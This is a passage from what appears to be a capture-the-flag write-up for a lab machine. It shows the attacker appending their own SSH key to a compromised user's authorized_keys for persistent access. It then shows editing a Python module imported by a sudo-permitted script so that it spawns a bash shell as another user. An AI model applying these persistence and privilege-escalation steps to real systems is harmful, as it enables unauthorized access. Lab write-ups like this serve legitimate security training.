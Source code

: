 Well ... time to ssh in. Follow the tanget to setup ssh below.

```
mat@watcher:~$ mkdir .ssh
mkdir .ssh
mat@watcher:~$ cd .ssh
cd .ssh
mat@watcher:~/.ssh$ echo "ssh-rsa {blah blah blah} kali@kali" > authorized_keys
{some truncated stuff} kali@kali" > authorized_keys
mat@watcher:~/.ssh$ 
```

[SSH permissions setting](https://community.perforce.com/s/article/6210)

```
mat@watcher:~/.ssh$ chmod 600 au
chmod 600 authorized_keys 
```

```
mat@watcher:~$ chmod 700 .ssh
chmod 700 .ssh
```

```
┌──(kali㉿kali)-[~/.ssh]
└─$ ssh mat@10.10.157.202                           

...

mat@watcher:~$ 
```

YES!

### 3.3 Lateral PrivEsc (again) (again): Will
We edit and spawn a shell.
```
mat@watcher:~/scripts$ cat cmd.py 
import pty
def get_command(num):
        pty.spawn("/bin/bash")
        if(num == "1"):
                return "ls -lah"
        if(num == "2"):
                return "id"
        if(num == "3"):
                return "cat /etc/passwd"
```

```
mat@watcher:~/scripts$ sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1
will@watcher:~/scripts$ 
```

noice.
